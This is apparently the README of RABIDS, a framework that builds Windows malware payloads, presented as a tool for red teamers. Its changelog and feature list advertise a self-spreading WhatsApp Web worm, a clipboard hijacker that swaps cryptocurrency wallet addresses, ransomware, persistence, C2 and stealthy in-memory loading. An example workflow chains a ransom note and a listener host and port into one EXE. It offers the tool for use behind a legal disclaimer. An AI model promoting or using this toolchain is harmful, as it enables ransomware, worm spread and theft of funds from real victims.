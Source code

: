 ## What's New

### VERSION 0.1.4
- **New Module: `bartmossbrainworm`** - Messaging worm
- **Features:**
  - Spreads itself by automatically sending a configurable message to all chats in WhatsApp Web
  - The message can be set using the `set MESSAGE "your text"` command before build

### VERSION 0.1.3
- **New Module: `gremlin`** - Clipboard wallet address hijacker
- **Features:**
  - Monitors clipboard for copied wallet addresses (Bitcoin, Ethereum, BEP-20, Solana)
  - Automatically replaces detected wallet addresses with user-configurable predefined addresses
  - Predefined addresses for each chain can be set using the `set` command before build

## Overview
**RABIDS** Roving Autonomous Bartmoss Interface Drones is a modular Windows malware generation framework. It empowers security researchers and red teamers to rapidly build custom malware payloads by chaining together a variety of modules—such as ransomware, persistence loaders, C2 servers, and more—into a single executable. RABIDS is designed for advanced adversary simulation, malware research, and authorized red team operations.

> **Warning:** This tool is for educational and authorized security research only. Misuse may be illegal and unethical.

## Features

- **Modular Payloads:** Chain multiple modules (ransomware, persistence, C2, etc.) into a single EXE.
- **Customizable Options:** Configure module and build options (e.g., ransom note, C2 port, EXE name).
- `use <module>` — Add a module to the build chain
- `set <OPTION> <VALUE>` — Set build/module options
- `show modules` — List available modules
- `show options` — Show current build/module options
- `build` — Build the final EXE payload
- `clear` — Clear selected modules
- `delete` — Remove a module from the chain
- `exit` — Exit the tool

**For detailed documentation on each command and advanced usage, see the [RABIDS Wiki](https://github.com/sarwaaaar/RABIDS/wiki).**

### Example Workflow
```
> show modules
> use krash
> set NOTE "Your files have been encrypted! Contact evil@domain.com."
> use silverhandghost
> set LHOST 192.168.1.10
> set LPORT 4444
> build
```
- The final EXE will be saved in the `.LOOT` directory.

## Advanced Features
- **Module Chaining:** Combine multiple behaviors in one payload.
- **Custom Build Options:** Set EXE name, enable obfuscation, etc.
- **In-Memory Execution:** Use Rust loader for stealthy delivery.

## Legal Disclaimer

RABIDS is intended for educational purposes and authorized security testing only. You must have explicit permission to use this tool against any system or network. The authors and contributors are not responsible for misuse, damage, or legal consequences. Always follow applicable laws and ethical guidelines.

## Contributing

Contributions are welcome! Please fork the repository, create a feature branch, and submit a pull request with a detailed description of your changes.

## License

MIT License. See the `LICENSE` file for details.
